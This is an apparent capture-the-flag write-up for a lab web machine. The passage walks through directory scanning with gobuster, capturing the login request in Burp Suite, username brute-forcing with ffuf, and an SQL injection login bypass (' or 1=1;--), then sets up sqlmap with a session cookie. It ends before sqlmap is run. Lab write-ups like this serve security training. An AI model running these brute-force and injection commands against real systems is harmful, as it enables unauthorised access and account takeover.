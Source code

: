 - **Next, we attempt a GoBuster scan in order to find potential hidden directories:**
```bash
gobuster dir -u 10.10.71.155 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -k -t 64
```
	- Note: it did not provide any tangible result.

- **Since we had access to a login portal, we could try and inspect the login request using Burp Suite, which could have provided us insight on the authentication process and information for a credential fuzzing with `ffuf`.**

- **We started by making a login attempt, next  we intercepted it with Burp Suite and we sent it to Repeater for further inspection.** 
- **From there we collect information on the request structure and the failed attempted error message. Now we could use fuzzing tools such as `ffuf` in order to brute force the login portal.** 
```bash
username=[value]&password=[value]&x=[coord]&y=[coord]
#failed attempt error message 
Incorrect login
```
	-Note: we could verify (through multiple test requests) that x,y are coordinates of the click (on the Enter button).

- **First, we can attempt to see if we can enumerate users (instead of fuzzing with 2 wordlists at the same time):**
```bash
ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt:FUZZ -X POST -d "username=FUZZ&password=dummy&x=25&y=15"  -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.71.155 -mr "Incorrect login"
```

- **While waiting for the results, we attempted some basic SQL injections from Burp Suite Repeater.**
- **Fortunately, the following payload  `' or 1=1;--` allowed us the access a new page:**
```bash
username=' or 1=1;--&password=dummy&x=25&y=15
```

- **Next, we came across a web page where we can search for game and get reviews on them. From there we assume there is an SQL logic behind that system too.** 
- **A common practice would be to confuse the server with an unexpected output that would likely break the SQL query. This might result in a error message, which could provide important information on the system.** 

- **From now on, we moved to `sqlmap` in order to fingerprint the database.**

# Exploitation 
---
## HTTP (80)
---
- **Before using `sqlmap`, we made another Burp Suite request in order to have an idea on the request structure and to find valuable parameters. Here the result we got from this:**
```bash
#Parameter
searchitem=[value]
#Cookie (useful in order to make sqlmap use our authenticated session)
cookie="PHPSESSID=pcod9e0cnn7mt0ee9inl5u78m7"
```
